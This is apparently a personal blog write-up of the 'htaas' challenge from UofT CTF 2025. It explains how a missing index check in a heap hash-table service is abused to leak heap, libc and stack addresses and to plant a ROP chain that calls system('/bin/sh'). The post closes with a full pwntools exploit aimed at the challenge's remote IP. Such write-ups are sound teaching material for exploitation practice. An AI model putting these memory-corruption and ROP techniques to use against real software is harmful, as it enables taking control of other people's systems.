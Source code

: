 +++
title = 'htaas - UofT CTF 2025'
date = 2025-01-15T19:58:53+01:00
draft = false
+++

while playing UofTCTF I solved hash table as a service (htaas).
we were given a simple heap menu, which lets us create, get and set hash table entries
```
1. New Hash Table
2. Set
3. Get
4. Exit
> 
```
upon inspecting the source, we spot some interesting things. there is an array that contains `hashTable`s,
i.e. it contains the number of entries in the hash table and its start address:
```
0x5c1e1caad040 <hashTables>:	0x0000000000000010	0x00005c1e4f4072a0
0x5c1e1caad050 <hashTables+16>:	0x0000000000000000	0x0000000000000000
...
```
each `hashTable` consits of `n` entries, which look like this:
```c
struct entry {
    int idx;
    char value[8];
}
```

now that the structures are clear, we can look at the bugs. there is clearly a missing check
in get and set functionality on the index for a hash table. in theory it can be any value:
```c
printf("Index: ");
__isoc99_scanf("%d", &v4);
printf("Key: ");
__isoc99_scanf("%d", &v5);
HashTable = getHashTable((char *)&hashTables + 16 * (int)v4, v5);
```
however we are limited by the method of retrieving the `HashTable` in `getHashTable`:
```c
__int64 __fastcall getHashTable(_QWORD *entry, int key)
{
  unsigned __int64 v3; // [rsp+10h] [rbp-10h]
  __int64 v4; // [rsp+18h] [rbp-8h]

  v3 = (unsigned __int64)key % *entry;
  v4 = entry[1];
  while ( key != *(_DWORD *)(12 * v3 + v4) && memcmp(&empty, (const void *)(12 * v3 + v4), 0xCuLL) )
    ++v3;
  return 12 * v3 + v4;
}
```
any malicious data we reach with a negative index for example have to satisfy following conditions:
- `*entry` has to contain a valid hash table size
- `*entry+8` has to contain a valid pointer
it was pretty difficult to find a valid target around the `hashTable` array, but there was something:
```
0x5c1e1caacd70:	0x00005c1e1caaa260	0x00005c1e1caaa220
```
this will satisfy the conditions above. since value at `*entry` is so large, `v3` will be the same as `key`.
that will require the `key` of the hash table me the same as its offset to the beginning in 
order to receive an entry. this seems pretty specific, but can be achieved in the `hashTable`
array, since we can freely control the number of entries in a `hashTable`. upon carefully crafting a negative index and size for a hash table we come up with this:
```py
create(0, 0x3d8)
set_map(-45, 0x3d8, b"AAAAAAAA")
get_map(-45, 0x3d8)
```
this will let us control 4 bytes of the pointer to `hashTable` entries:
```
0x5736c7f82040 <hashTables>:	0x41414141000003d8	0x0000573641414141
```
now we can have (heap) oob writes, since if an address contains `0xc` null bytes, we can
write to it no matter the key. however to get arbitrary reads, a valid `key` has to be preceeding
the value.

luckily we have enough control on the heap, so I decided to corrupt the top chunk and prepare
a proper key in front of libc addresses to be leaked. this leaks a libc address:
```py
heap = u64(p.recvuntil(b">")[:-1].ljust(8, b"\x00"))
target = heap + 0x2df8
target2 = target + 0x8
target3 = target2 + 0x8

set_map(-45, 0x3d8, b"AAAA" + p32(target))

set_map(0, 3, p64(0x300000000))
set_map(-45, 0x3d8, b"AAAA" + p32(target2))

set_map(0, 3, p64(0xf41))
create(1, 0x3d8)

set_map(0, 3, p64(0x300000000))
set_map(-45, 0x3d8, b"AAAA" + p32(target3))
get_map(0, 3)

p.recvuntil(b"Value: ")
libc = u64(p.recvuntil(b">")[:-1].ljust(8, b"\x00"))
```
because of the new libc I decided to corrupt the stack. to retrieve a stack leak, I wrote
some correct index right before `environ` and was able to leak it:
```py
before_environ = libc_base + 0x20ad40

set_map(-45, 0x3db, p64(before_environ))
set_map(2, 1, p64(0x200000000))

set_map(-45, 0x3db, p64(before_environ-0x4))

get_map(2, 2)

p.recvuntil(b"Value: ")
stack = u64(p.recvuntil(b">")[:-1].ljust(8, b"\x00"))
```
we're lucky, since the `key` right before the saved return address contains `0x7fff`, which
is valid (and actually the uper 32-bits of saved `rbp`). with that we can prepare the stack
to be able to write more data to it and hold our ropchain. we get a shell:
```
[+] Starting local process './chall': pid 1991
0x34a4e2a0
0x7a3224400000
0x7ffe4e495508
[*] Switching to interactive mode
 $ ls
Dockerfile  chall.id0  chall.id2  chall.til		libc.so.6  x.py
chall	    chall.id1  chall.nam  ld-linux-x86-64.so.2	run
$ 
```
the full exploit is:
```py
from pwn import *

def create(idx, sz):
    p.sendlineafter(b">", b"1")
    p.sendlineafter(b"Index", str(idx).encode())
    p.sendlineafter(b"Size", str(sz).encode())

def set_map(idx, key, value):
    p.sendlineafter(b">", b"2")
    p.sendlineafter(b"Index", str(idx).encode())
    p.sendlineafter(b"Key", str(key).encode())
    p.sendafter(b"Value", value)

def get_map(idx, key):
    p.sendlineafter(b">", b"3")
    p.sendlineafter(b"Index", str(idx).encode())
    p.sendlineafter(b"Key", str(key).encode())

#p = process("./chall")
p = remote("34.162.33.160", 5000)

create(0, 0x3d8)
set_map(-45, 0x3d8, b"AAAA")
get_map(-45, 0x3d8)

p.recvuntil(b"AAAA")
heap = u64(p.recvuntil(b">")[:-1].ljust(8, b"\x00"))
target = heap + 0x2df8
target2 = target + 0x8
target3 = target2 + 0x8
print(hex(heap))
p.unrecv(b">")

set_map(-45, 0x3d8, b"AAAA" + p32(target))

set_map(0, 3, p64(0x300000000))
set_map(-45, 0x3d8, b"AAAA" + p32(target2))

set_map(0, 3, p64(0xf41))
create(1, 0x3d8)

set_map(0, 3, p64(0x300000000))
set_map(-45, 0x3d8, b"AAAA" + p32(target3))
get_map(0, 3)

p.recvuntil(b"Value: ")
libc = u64(p.recvuntil(b">")[:-1].ljust(8, b"\x00"))
libc_base = libc - 0x203b20
before_environ = libc_base + 0x20ad40
system = libc_base + 0x58740
binsh = libc_base + 0x1cb42f
pop_rdi = libc_base + 0x10f75b
ret = libc_base + 0x2882f
print(hex(libc_base))
p.unrecv(b">")

set_map(-45, 0x3db, p64(before_environ))
set_map(2, 1, p64(0x200000000))

set_map(-45, 0x3db, p64(before_environ-0x4))

get_map(2, 2)

p.recvuntil(b"Value: ")
stack = u64(p.recvuntil(b">")[:-1].ljust(8, b"\x00"))
rip = stack - 0x130
initial_rip_addr = (rip - 0x4) - (stack >> 32)*0xc
print(hex(stack))
p.unrecv(b">")

set_map(-45, 0x3db, p64(initial_rip_addr))
set_map(2, (stack >> 32), p64(0x100000000))

set_map(-45, 0x3db, p64(rip+0x4-0xc))
set_map(2, 1, p64(0x100000000))

set_map(-45, 0x3db, p64(rip+0x8+0x4-0xc))
set_map(2, 1, p64(0x100000000))

set_map(-45, 0x3db, p64(rip+0x10+0x4-0xc))
set_map(2, 1, p64(system))

set_map(-45, 0x3db, p64(rip+0x8+0x4-0xc))
set_map(2, 1, p64(binsh))

set_map(-45, 0x3db, p64(rip+0x4-0xc))
set_map(2, 1, p64(pop_rdi))

set_map(-45, 0x3db, p64(initial_rip_addr)) 
set_map(2, (stack >> 32), p64(ret))

p.sendlineafter(b">", b"4")

p.interactive()
```